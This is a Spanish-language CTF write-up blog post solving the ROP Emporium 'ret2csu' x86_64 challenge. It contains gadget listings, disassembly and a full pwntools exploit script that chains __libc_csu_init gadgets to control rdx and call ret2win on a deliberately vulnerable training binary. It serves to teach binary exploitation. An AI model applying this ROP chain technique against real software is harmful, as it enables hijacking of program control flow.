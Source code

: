 ```yaml
---
layout: post
title: Ret2csu ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este es el último post de la serie de writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html). Con esta serie de posts hemos aprendido sobre una de las técnicas más utilizadas en la explotación de binarios, la [***ROP***]({% post_url 2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

En este último reto, daremos nuestros primeros pasos en las técnicas de *ROP Avanzado*, en este caso, el *ret2csu*. Créditos para el [Writeup](https://hackmd.io/@Broder/RopEmporium#Ret2csu) que me ayudó a resolverlo por primera vez, aunque el script que nos daban no funcionaba, ya que tiene algunas particularidades que debemos tener en cuenta.

# Reconocimiento

Como siempre comenzamos lanzando *checksec*:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

En el enunciado nos dicen que es igual al reto de *callme*, pero con la diferencia de que nos será más difícil pasar el último argumento:

> **Same same, but different**
> This challenge is very similar to "callme", with the exception of the useful gadgets. Simply call the `ret2win()` function in the accompanying library with the same arguments you used to beat the "callme" challenge (`ret2win(0xdeadbeef, 0xcafebabe, 0xd00df00d)` for the ARM & MIPS binaries, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` for the x86_64 binary).

Lo primero será buscar algunos gadgets con *ropper*:

```
0x00000000004006a3: pop rdi; ret; 
0x00000000004006a1: pop rsi; pop r15; ret;
```

Aunque busquemos con varias herramientas, no encontraremos ningún gadget que nos permita controlar *rdx* y por tanto, introducir el último argumento. Para ello, deberemos utilizar una técnica llamada **Ret2csu**, de forma que utilizaremos los *universal gadgets*, es decir, aquellos presentes en la función *__libc_csu_init*. 

```
disass __libc_csu_init 
Dump of assembler code for function __libc_csu_init:
[...]
   0x0000000000400680 <+64>:	mov    rdx,r15
   0x0000000000400683 <+67>:	mov    rsi,r14
   0x0000000000400686 <+70>:	mov    edi,r13d
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:	add    rbx,0x1
   0x0000000000400691 <+81>:	cmp    rbp,rbx
   0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:	add    rsp,0x8
   0x000000000040069a <+90>:	pop    rbx
   0x000000000040069b <+91>:	pop    rbp
   0x000000000040069c <+92>:	pop    r12
   0x000000000040069e <+94>:	pop    r13
   0x00000000004006a0 <+96>:	pop    r14
   0x00000000004006a2 <+98>:	pop    r15
   0x00000000004006a4 <+100>:	ret
```

Ahí encontramos gadgets bastante interesantes. Vemos que podemos controlar tanto *edi*, como *rsi*, y para *rdx*, simplemente debemos almacenar el valor en *r15* primero. Sin embargo, hay que tener en cuenta las instrucciones a las que se llama después, ya que tenemos un `call   QWORD PTR [r12+rbx*8]`. Una cosa que podemos hacer es saltar a *_fini* (aquí puedes leer una [POC](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html)):

```
disass _fini 
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:	sub    rsp,0x8
   0x00000000004006b8 <+4>:	add    rsp,0x8
   0x00000000004006bc <+8>:	ret
```

Hay que tener en cuenta que no hay que pasar directamente la instrucción, sino un puntero a dicha instrucción. Con *gdb-peda*, podemos buscarlo:

```
gdb-peda$ find 0x00000000004006b4
Searching for '0x00000000004006b4' in: None ranges
Found 1 results, display max 1 items:
ret2csu : 0x600e48 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
```

De esta forma, el valor de *rdx* se mantiene intacto. Además, realiza una suma y comparación `add rbx,0x1; cmp rbp,rbx;` así que tenemos que tener esto en cuenta. Lo más sencillo es que los registros valgan lo siguiente:

```
rbx = 0x0
rbp = 0x1
r12 = 0x600e48
```

# Explotación

Ya podemos ponernos a escribir un script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context.update(arch='amd64')
exe = './ret2csu'
elf = ELF(exe)


def start(argv=[], *a, **kw):
    
    return process([exe] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

offset = 40*b"A"

# 0x00000000004006a3: pop rdi; ret;
poprdi = p64(0x00000000004006a3)

# 0x00000000004006a1: pop rsi; pop r15; ret;
poprsi_r15 = p64(0x00000000004006a1)

# 0x000000000040069a <+90>:	pop rbx; [...]
poprbx_rbp_r12_r13_r14_r15_ret = p64(0x40069a)

# Hay que tener en cuenta que al ser dinamically linked, debemos llamar al programa y ver en que direccion se almacena
ret2win = p64(elf.symbols['ret2win'])

# 0x0000000000400680 <+64>:	mov rdx,r15; [...]
movrdx_r15__call = p64(0x0000000000400680)

# ret2csu : 0x600e48 --> 0x4006b4 (<_fini>:	sub rsp,0x8)
fini = p64(0x600e48)

arg1 = 0xdeadbeefdeadbeef               #rdi
arg2 = 0xcafebabecafebabe               #rsi
arg3 = 0xd00df00dd00df00d               #rdx

ret = p64(0x4004e6)

payload = offset
payload += poprbx_rbp_r12_r13_r14_r15_ret
payload += p64(0)                           #rbx = 0, para que luego se le sume uno y la comparacion salga
payload += p64(1)                           #rbp = 1
payload += fini                             #r12 = *fini
payload += p64(1)                           #r13 (basura)
payload += p64(1)                           #r14 (basura)
payload += p64(arg3)                        #r15 = arg3, luego ira a rdx
payload += movrdx_r15__call
payload += p64(1)*7              #Mete 8 posiciones extra que el programa se va a saltar (add rsp,0x8)
payload += poprdi
payload += p64(arg1)
payload += poprsi_r15
payload += p64(arg2)
payload += p64(1)
#ayload += ret
payload += ret2win

io.recvuntil(b'> ')
io.sendline(payload)

io.interactive()
```

Y con este pequeño paso hacia las técnicas más avanzadas de ROP. Espero que hayas disfrutado de esta serie y hayas aprendido tanto como yo haciéndola. Y si quieres seguir con tu camino en la explotación de binarios, ¡puedes estar al tanto de los próximos posts!